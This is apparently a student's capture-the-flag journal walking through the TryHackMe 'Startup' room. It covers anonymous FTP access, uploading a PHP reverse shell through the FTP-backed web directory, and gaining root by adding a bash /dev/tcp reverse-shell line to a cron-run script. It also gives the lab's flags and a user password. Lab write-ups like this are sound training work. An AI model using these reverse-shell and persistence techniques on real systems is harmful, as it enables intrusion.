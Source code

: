 ```yaml
---
Title: SWS101 CTF Journal 3
categories: [SWS101, CTF_Journal3]
tags: [SWS101]
---
```


# Try Hack Me Room: Startup

![CTF](/pictures/SWS_pictures/startup/startup.png)

## Task1: Welcome to Spice Hut!

![CTF](/pictures/SWS_pictures/startup/chilli.png)

“We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own the root. Good luck!”

First let’s start the reconnaissance by doing nmap.

![CTF](/pictures/SWS_pictures/startup/nmap.png)

3 ports were open.

Port 80 is open so let’s check the http website

![CTF](/pictures/SWS_pictures/startup/webpage.png)

There is only one message left by the dev team.

### What is the secret spicy soup recipe?
Since FTP is open, let’s try to login to ftp as anonymous.

![CTF](/pictures/SWS_pictures/startup/ftp.png)

List of files and directories inside ftp

![CTF](/pictures/SWS_pictures/startup/ls.png)

Now let’s download those files with the ‘get’ command.


This is the important.jpg 

![CTF](/pictures/SWS_pictures/startup/important.jpg)

This the notice.txt 

![CTF](/pictures/SWS_pictures/startup/notice.png)

From this notice i found one of the username “Maya”

Next I also change the directory to ftp and ls the directories inside it but there are only hidden files.

![CTF](/pictures/SWS_pictures/startup/cdftp.png)

Let’s use ffuf and find the directories in http port.

![CTF](/pictures/SWS_pictures/startup/ffuf.png)

I found that /files path is there in http port, now let’s check it out.

![CTF](/pictures/SWS_pictures/startup/file.png)

Wow, this is a ftp service. We can use this to get access to the machine by uploading a shell to the FTP service and executing it in our browser. I will upload the php reverse shell file, which I saved in php-reverse-shell.php.

To upload the file to the ftp directory on the FTP service, the command is put php-reverse-shell.php.

![CTF](/pictures/SWS_pictures/startup/put.png)

I see that a shell.php file is uploaded. We’ll start a netcat listener using the following command: nc -lvnp 1234

![CTF](/pictures/SWS_pictures/startup/netcat.png)

With our listener set up, we can click the php-reverse-shell.php file in our browser.

<b>ANS:</b> love


### What are the contents of user.txt?
We got the password for linnie i.e c4ntg3t3n0ughsp1c3, now let’s login using ssh.

![CTF](/pictures/SWS_pictures/startup/pass.png)

BOOM! Here i got the user.txt file and the flag

<b>ANS:</b> THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

### What are the contents of root.txt?
Now it’s time to get the root flag. Linnie has 2 other directories that are Documents and scripts. In scripts directories there is something useful.

![CTF](/pictures/SWS_pictures/startup/echo.png)

I could see that planner.sh is running every minute and modifying the contents of startup_list.txt.
we can modify /etc/print.sh. I can put the bash command into the print.sh script:<br>
bash -i >& /dev/tcp/10.10.51.47/4444 0>&1

![CTF](/pictures/SWS_pictures/startup/nano.png)

I opened a listener in my terminal and in a minute I received the connection( we need to wait a little).

![CTF](/pictures/SWS_pictures/startup/root.png)

Finally list the files and grab the root flag.

<b>ANS:</b> THM{f963aaa6a430f210222158ae15c3d76d}

That’s it for this startup room, see you guys on the next try hack me room walkthrough.
